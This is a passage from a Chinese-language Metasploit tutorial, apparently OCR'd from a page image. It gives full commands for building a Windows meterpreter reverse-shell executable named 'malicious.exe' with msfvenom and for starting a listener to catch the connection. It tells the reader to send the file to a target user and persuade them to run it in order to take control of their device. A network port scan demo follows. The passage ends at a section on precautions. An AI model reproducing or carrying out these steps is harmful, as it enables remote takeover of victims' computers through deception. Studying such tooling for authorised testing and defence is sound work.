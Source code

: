 1. 生成 Payload

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > malicious.exe
   ```

2. 启动监听器

   - 在 Metasploit 中启动监听：

     ```
     use exploit/multi/handler
     set payload windows/meterpreter/reverse_tcp
     set LHOST 192.168.1.50
     set LPORT 4444
     exploit
     ```

3. 运行恶意文件

   - 将生成的 `malicious.exe` 文件发送给目标用户，并诱导其运行。

4. 获取 Meterpreter 会话

   - 成功运行后，获取目标设备的控制权。

------

### Demo 3: 使用辅助模块进行信息收集

**目标**：扫描目标主机的开放端口和服务信息。

**步骤**：

1. 加载扫描模块

   ```
   use auxiliary/scanner/portscan/tcp
   ```

2. 设置参数

   ```
   set RHOSTS 192.168.1.0/24
   set THREADS 50
   ```

3. 运行扫描

   ```
   run
   ```

4. 查看结果

   - 输出将显示目标主机的开放端口和服务。

------

## 7. Metasploit 的优势与注意事项
